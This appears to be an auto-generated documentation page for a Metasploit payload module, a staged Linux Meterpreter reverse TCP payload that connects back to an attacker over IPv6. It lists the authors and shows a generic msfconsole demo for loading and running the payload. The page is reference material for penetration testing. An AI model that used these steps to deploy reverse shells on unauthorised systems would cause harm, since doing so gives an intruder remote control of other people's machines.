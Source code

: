 ## Linux Meterpreter, Reverse TCP Stager (IPv6)

Inject the meterpreter server payload (staged). Connect back 
to attacker over IPv6


## Module Name
payload/linux/x86/meterpreter/reverse_ipv6_tcp

## Authors
* PKS
* egypt
* OJ Reeves
* kris katterjohn





## Platforms
* linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/x86/meterpreter/reverse_ipv6_tcp
msf payload(reverse_ipv6_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ipv6_tcp) > set TARGET <target-id>
msf payload(reverse_ipv6_tcp) > show options
   ... show and set options ...
msf payload(reverse_ipv6_tcp) > run
```
    
    